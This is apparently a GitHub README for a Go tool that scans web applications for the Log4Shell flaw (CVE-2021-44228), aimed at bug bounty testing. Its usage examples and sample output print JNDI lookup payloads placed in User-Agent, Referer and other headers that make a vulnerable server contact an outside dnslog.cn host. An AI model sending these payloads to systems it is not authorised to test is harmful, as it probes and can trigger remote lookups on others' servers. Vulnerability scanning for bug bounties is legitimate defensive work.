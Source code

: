 ## log4shell-looker a log4jshell vulnerability scanner for bug bounty

(Written in Go because, you know, "write once, run anywhere.")

This is a simple tool that can be used to find vulnerable instances of
log4j 1.x and 2.x (CVE-2021-44228) in installations of
Java software such as web applications.

The scan tool currently checks for discover log4shell vulnerability.<br /> 
Current feature of tools: 
`Cookies`, `Content-Type`, `URL Path`, `User-Agent`, `Headers`


# Using the scanner
```bash
$ go run main.go --help
Usage of main:
  -mode string
        please usage mode [urlpath, header, useragent] (default "[urlpath, header, useragent, cookie, contents]")
  -url string
        please enter you url for scan (default "url")


$ go run main.go -mode=useragent -url=http://127.0.0.1:8080
[+++] Your domain generated :  rfcbd0.dnslog.cn
[+++] Your session is :  1s16v8k8fmrmd5rljun51lmur4
[***] Payload :  User-Agent:${jndi:ldap://rfcbd0.dnslog.cn/}
[---] Isn't to vulnerability CVE-2021-44228
#################### 0 ############################
[+++] Your domain generated :  rfcbd0.dnslog.cn
[+++] Your session is :  1s16v8k8fmrmd5rljun51lmur4
[***] Payload :  Referer:${jndi:ldap://rfcbd0.dnslog.cn/}
[---] Isn't to vulnerability CVE-2021-44228
#################### 2 ############################
[+++] Your domain generated :  rfcbd0.dnslog.cn
[+++] Your session is :  1s16v8k8fmrmd5rljun51lmur4
[***] Payload :  X-Api-Version:${jndi:ldap://rfcbd0.dnslog.cn/}
[***] DNS log result :  [["rfcbd0.dnslog.cn","172.253.238.4","2021-12-16 14:45:19"]]
[***] Is Vulnerability to CVE-2021-44228 - [critical]
```

# Building from source

Install a [Go compiler](https://golang.org/dl).

Run the following commands in the checked-out repository:
```
go run main.go -mode=header -url=https://www.example.com/
Or
go build -o main
```
(Add the appropriate `.exe` extension on Windows systems, of course.)

# Example 

```bash 
$ go run main.go -mode=header -url=http://127.0.0.1:8080/
```
![Header](https://github.com/ravro-ir/log4shell-looker/blob/main/img/header.PNG)

```bash 
$ go run main.go -mode=useragent -url=http://127.0.0.1:8080/
```
![Header](https://github.com/ravro-ir/log4shell-looker/blob/main/img/user_agent.PNG)

```bash 
$ go run main.go -mode=cookie -url=http://127.0.0.1:8080/
```
![Header](https://github.com/ravro-ir/log4shell-looker/blob/main/img/cookie.PNG)

```bash 
$ go run main.go -mode=urlpath -url=http://127.0.0.1:8080/
```
![Header](https://github.com/ravro-ir/log4shell-looker/blob/main/img/url_path.PNG)

```bash 
$ go run main.go -mode=contents -url=http://127.0.0.1:8080/
```
![Header](https://github.com/ravro-ir/log4shell-looker/blob/main/img/content_type.PNG)



# License

GNU General Public License, version 3

# Author

Ramin Farajpour Cami <<ramin.blackhat@gmail.com>>


